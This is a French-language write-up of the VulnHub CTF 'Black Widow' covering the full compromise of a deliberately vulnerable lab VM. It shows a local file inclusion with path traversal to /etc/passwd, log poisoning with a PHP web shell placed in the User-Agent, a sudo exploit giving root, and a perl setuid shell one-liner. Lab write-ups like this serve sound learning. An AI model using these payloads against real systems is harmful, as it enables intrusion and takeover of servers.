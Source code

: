 # Solution du CTF Black Widow de VulnHub

Intro
-----

[Black Widow](https://www.vulnhub.com/entry/black-widow-1,637/) est un CTF créé par *0xJin* et *mindsflee*, disponible sur VulnHub.  

Le CTF est de type boot2root avec un cas d'exploitation web classique qui aurait dû me prendre seulement quelques minutes mais un bug sur le CTF en a décidé autrement :p  

Le scan Nmap nous retourne une pléthore de ports liés aux différents services RPC. NFS aurait pu être de la partie mais aucun export n'est présent.  

Un proxy Squid tourne mais ne nous permet pas d'aller voir en interne (*curl -x http://192.168.56.25:3128/ http://localhost/* nous refuse l'accès).  

```plain
$ sudo nmap -T5 -p- -sCV 192.168.56.25  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-11 20:16 CET 
Nmap scan report for 192.168.56.25 
Host is up (0.00011s latency). 
Not shown: 65526 closed tcp ports (reset) 
PORT      STATE SERVICE    VERSION 
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 f8:3b:7c:ca:c2:f6:5a:a6:0e:3f:f9:cf:1b:a9:dd:1e (RSA) 
|   256 04:31:5a:34:d4:9b:14:71:a0:0f:22:78:2d:f3:b6:f6 (ECDSA) 
|_  256 4e:42:8e:69:b7:90:e8:27:68:df:68:8a:83:a7:87:9c (ED25519) 
80/tcp    open  http       Apache httpd 2.4.38 ((Debian)) 
|_http-server-header: Apache/2.4.38 (Debian) 
|_http-title: Site doesn't have a title (text/html). 
111/tcp   open  rpcbind    2-4 (RPC #100000) 
| rpcinfo:  
|   program version    port/proto  service 
|   100000  2,3,4        111/tcp   rpcbind 
|   100000  2,3,4        111/udp   rpcbind 
|   100000  3,4          111/tcp6  rpcbind 
|   100000  3,4          111/udp6  rpcbind 
|   100003  3           2049/udp   nfs 
|   100003  3           2049/udp6  nfs 
|   100003  3,4         2049/tcp   nfs 
|   100003  3,4         2049/tcp6  nfs 
|   100005  1,2,3      36713/udp   mountd 
|   100005  1,2,3      44363/tcp   mountd 
|   100005  1,2,3      57572/udp6  mountd 
|   100005  1,2,3      60195/tcp6  mountd 
|   100021  1,3,4      35689/tcp   nlockmgr 
|   100021  1,3,4      44158/udp   nlockmgr 
|   100021  1,3,4      44621/tcp6  nlockmgr 
|   100021  1,3,4      48444/udp6  nlockmgr 
|   100227  3           2049/tcp   nfs_acl 
|   100227  3           2049/tcp6  nfs_acl 
|   100227  3           2049/udp   nfs_acl 
|_  100227  3           2049/udp6  nfs_acl 
2049/tcp  open  nfs_acl    3 (RPC #100227) 
3128/tcp  open  http-proxy Squid http proxy 4.6 
|_http-server-header: squid/4.6 
|_http-title: ERROR: The requested URL could not be retrieved 
35689/tcp open  nlockmgr   1-4 (RPC #100021) 
44363/tcp open  mountd     1-3 (RPC #100005) 
53631/tcp open  mountd     1-3 (RPC #100005) 
54727/tcp open  mountd     1-3 (RPC #100005)
```

Conclusion: on s'en tient au port 80 qu'on maltraite avec l'aide de *Feroxbuster*. L'outil de brute force de paths nous trouve un dossier */company* à la racine du site.  

Assez rapidement je remarque en commentaire HTML le message suivant :  

> We are working to develop a php inclusion method using "file" parameter - Black Widow DevOps Team.

Je n'ai pas vraiment de fichier php à tester donc re-coup de *Feroxbuster* sur les fichiers et il en ressort un fichier *started.php*.  

Je parviens à reproduire la vulnérabilité d'inclusion avec la commande suivante :  

```bash
ffuf -w /wordlists/files/JHADDIX_LFI.txt -u http://192.168.56.25/company/started.php?file=FUZZ -fs 0
```

Il faut remonter une bonne quantité de dossiers avant d'atteindre la racine :  

```plain
http://192.168.56.25/company/started.php?file=../../../../../../../../../../../../../etc/passwd
```

L'étape suivante est bien sûr d'injecter du PHP dans un fichier présent sur le disque avant de l'inclure et là... catastrophe, j'ai tout essayé sans obtenir quoi que ce soit.  

Je me suis dirigé sur l'hypothèse du bug du CTF quand j'ai vu qu'inclure */var/log/apache2/access.log.1* retournait un résultat mais que l'on avait rien pour */var/log/apache2/access.log*.  

Les auteurs du CTF ont en effet simplement dû changer les permissions sur les logs manuellement mais comme logrotate fonctionne, quand moi j'ai démarré la VM, celle-ci a synchronisé son horloge et logrorate a archivé le fichier de log courant pour en créer un nouveau qui a les permissions par défaut (c'est à dire qu'on ne peut pas l'inclure).  

Par conséquent, boot sur la VM avec édition de l'entrée GRUB pour avoir un shell et correction des permissions pour avoir la même situation que les autres personnes ayant déjà résolu ce CTF :-(  

Injection de logs
-----------------

On part sur du classique à savoir passer du PHP dans le User-Agent en évitant d'y mettre apostrophes et guillemets qui risqueraient d'être échapés.  

```bash
curl -A '<?php system($_GET[chr(99)]); ?>' http://192.168.56.25/
```

Cette fois ça fonctionne !  

```plain
http://192.168.56.25/company/started.php?file=../../../../../../../../../../../../..//var/log/apache2/access.log&c=id
```

Kansas City Shuffle
-------------------

On peut passer directement de *www-data* à *root* via la faille sudo :  

```plain
www-data@blackwidow:/tmp/CVE-2021-3156-main$ python exploit_nss.py 
sudoedit: unable to resolve host blackwidow: Temporary failure in name resolution 
# id 
uid=0(root) gid=0(root) groups=0(root),33(www-data) 
# cd /root 
# ls  
root.txt 
# cat root.txt 

▄▄▄▄· ▄▄▌   ▄▄▄·  ▄▄· ▄ •▄     ▄▄▌ ▐ ▄▌▪  ·▄▄▄▄        ▄▄▌ ▐ ▄▌ 
▐█ ▀█▪██•  ▐█ ▀█ ▐█ ▌▪█▌▄▌▪    ██· █▌▐███ ██▪ ██ ▪     ██· █▌▐█ 
▐█▀▀█▄██▪  ▄█▀▀█ ██ ▄▄▐▀▀▄·    ██▪▐█▐▐▌▐█·▐█· ▐█▌ ▄█▀▄ ██▪▐█▐▐▌ 
██▄▪▐█▐█▌▐▌▐█ ▪▐▌▐███▌▐█.█▌    ▐█▌██▐█▌▐█▌██. ██ ▐█▌.▐▌▐█▌██▐█▌ 
·▀▀▀▀ .▀▀▀  ▀  ▀ ·▀▀▀ ·▀  ▀     ▀▀▀▀ ▀▪▀▀▀▀▀▀▀▀•  ▀█▄▀▪ ▀▀▀▀ ▀▪ 

Congrats! 

You've rooted Black Widow! 

0xJin - mindsflee 

0780eb289a44ba17ea499ffa6322b335
```

Regular
-------

Mais on peut voir sur le système un utilisateur *viper* qui dispose d'un fichier *local.txt* (sans doute un flag) dans son répertoire...  

A première vue LinPEAS ne remonte rien d'excitant. Il y a quand même ces capabilities vides sur le binaire perl qui m'échappent :  

```plain
Files with capabilities (limited to 50): 
/usr/bin/perl = 
/usr/bin/perl5.28.1 = 
/usr/bin/ping = cap_net_raw+ep 
/usr/lib/squid/pinger = cap_net_raw+ep
```

Qu'est-ce que ça signifie ? J'ai testé par exemple de lire */etc/shadow* avec mais sans résultats.  

LinPEAS donne aussi une liste de fichiers de logs auxquels on a accès et il y a notamment le fichier */var/backups/auth.log*.  

Une permissions en lecture sur le véritable *auth.log* m'aurait bien aidé pour la faille d'inclusion... Voyons voir ce qu'il y a dans ce fichier.  

```plain
Dec 12 16:56:46 test sshd[29560]: Failed password for invalid user ?V1p3r2020!? from 192.168.1.109 port 7090 ssh2
```

Cette ligne est la plus intéressante. L'utilisateur a visiblement tapé son mot de passe quand le nom d'utilisateur lui était demandé.  

On peut ainsi se connecter sur le compte via SSH.  

Fatality
--------

On peut donc obtenir le flag utilisateur :  

```plain
viper@blackwidow:~$ cat local.txt  
d930fe79919376e6d08972dae222526b
```

L'historique bash de Viper n'a pas été vidé et on peut voir par exemple ces commandes :  

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
--- snip ---
cd backup_site/ 
ls -lrt 
cd assets 
ls -lrt 
cd vendor 
ls -lrt 
cd weapon/ 
ls 
./arsenic -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
--- snip ---

```

Comme vu plus tôt le binaire perl ne dispose plus de capabilities. En revanche on peut reprendre les autres commandes car le fichier *arsenic* est bien présent à l'emplacement attendu :  

```plain

viper@blackwidow:~/backup_site/assets/vendor/weapon$ ./arsenic -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";' 
# id 
uid=0(root) gid=1001(viper) groups=1001(viper)
```


*Published January 12 2022 at 13 33*